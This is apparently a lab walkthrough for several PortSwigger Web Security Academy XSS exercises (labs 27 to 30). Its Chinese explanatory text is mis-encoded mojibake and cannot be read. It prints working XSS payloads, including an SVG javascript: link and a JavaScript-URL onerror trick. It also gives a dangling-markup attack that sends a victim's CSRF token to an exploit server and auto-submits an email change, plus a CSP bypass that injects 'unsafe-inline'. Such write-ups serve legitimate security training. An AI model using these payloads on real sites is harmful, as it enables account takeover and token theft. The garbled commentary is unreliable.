    <svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>
    ```

    

    鍦ㄧ偣鍑籧lick me鍚庡嵆鍙Е鍙慳lert

28. Reflected XSS in a JavaScript URL with some characters blocked

    

    鍦ㄦ簮浠ｇ爜涓彲浠ョ湅鍒癵et浼犻€掔殑鍊艰鎷兼帴杩涗簡杩斿洖鐨勮秴閾炬帴閲?[image-20261113073853544](87.png)

    灏濊瘯鏀瑰彉鍐呭锛屽彂鐜板湪璇彞闂悎锛屼笖postId鍙互琚壘鍒扮殑鎯呭喌涓嬪彲浠ヨ瑙ｆ瀽,浣嗙┖鏍间細琚浆涔変负+锛屽苟鍘婚櫎鎷彿

    

    鎵€浠ヤ娇鐢╬ayload

    ```
    5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
    ```

    鍏堝畾涔変竴涓嚱鏁扮敤鏉ユ敼鍙榦nerror浜嬩欢涓篴lert骞舵姏鍑哄紓甯?337锛屽皢toString鏀逛负瀹冿紝骞跺埄鐢╳indow.''璋冪敤toString锛屽皢onerror鏀逛负alert鍚庡嚭鐜版湭鎹曡幏寮傚父1337锛岃Е鍙慳lert锛屾渶鍚庨棴鍚堣鍙ャ€傚皢payload鎷兼帴鍦ㄧ綉鍧€鍚庯紝鐐瑰嚮Back to Blog鍗冲彲寮瑰嚭alert

29. Reflected XSS protected by very strict CSP, with dangling markup attack

    

    鐧诲綍鎻愪緵鐨勮处鍙峰悗锛屽彂鐜板湪鏇存崲閭鐣岄潰锛岄€氳繃get浼犲叆email鍙傛暟浼氬嚭鐜板湪email鏍忎腑锛屼笖鍐呭琚洿鎺ュ～鍏ヤ簡缃戝潃涓?[image-20261113080423473](90.png)

    灏濊瘯闂悎input骞舵坊鍔犳柊鐨勫厓绱?[image-20261113080551282](91.png)

    鐒惰€岀敱浜嶤SP锛屾棤娉曠洿鎺ユ墽琛岃剼鏈?

    

    鎵€浠ュ厛鐢熸垚鎸夐挳璇卞鍙楀鑰呯偣鍑诲皢csrf浠ょ墝鍙戣嚦鏀诲嚮鏈嶅姟鍣紝鍦ㄧ敤鏀诲嚮鏈嶅姟鍣ㄥ彂閫佹洿鏀归偖绠辫姹傦紝娣诲姞

    ```
    <button formaction="https://exploit-0a3a00d2036e8f5e813d5b04019d00f6.exploit-server.net/exploit" formmethod=get type="submit">Click me</button>
    ```

    鍗冲彲灏哻srf浠ょ墝鍙戦€佽嚦鏀诲嚮鏂圭殑鏈嶅姟鍣紝鍦ㄦ鏌ュ埌csrf浠ょ墝鍚庡彂閫佹洿鏀归偖绠辫姹傦紝鍦ㄦ敾鍑绘湇鍔″櫒鍐呭啓涓?

    ```
    <form class="login-form" name="change" action="https://0aed007e03628ff981dc5cf2000a0058.web-security-academy.net/my-account/change-email" method="POST" style="display:none">
                                <input required type="email" name="email" value="hacker@evil-user.net">
                                <input required type="hidden" name="csrf" value="">
    <script>
    var url=new URL(document.location);
    var c=url.searchParams.get('csrf');
    if(c){
    var f=document.getElementsByName('change')[0];
    var s=document.getElementsByName('csrf')[0];
    s.value=c;
    f.submit();
    }else{
    location='https://0aed007e03628ff981dc5cf2000a0058.web-security-academy.net/my-account?email=1@2"><button%20formaction="https://exploit-0a3a00d2036e8f5e813d5b04019d00f6.exploit-server.net/exploit" formmethod=get type="submit">Click%20me</button>';
    }
    </script>
    ```

    鍙戦€佺粰鍙楀鑰呭嵆鍙繃鍏?

30. Reflected XSS protected by CSP, with CSP bypass

    

    鍦╞p鐨勪唬鐞嗗巻鍙蹭腑瑙傚療鍒拌繖棰樼殑csp绛栫暐

    鍙戠幇鍙互娉ㄥ叆鐨勫弬鏁皌oken锛屼笖绛栫暐涓病鏈塻cript-src-elem锛屽湪杈撳叆XSS璇彞鐨勫悓鏃讹紝鍒╃敤token鍙傛暟娉ㄥ叆script-src-elem unsafe-inline锛屼互瑕嗙洊script-src锛屼娇寰梄SS娉ㄥ叆鐨刯s鍧楀彲浠ユ墽琛?

    ```
    <script>alert%281%29<%2Fscript>&token=;script-src-elem%20%27unsafe-inline%27;
    ```

    

    

    


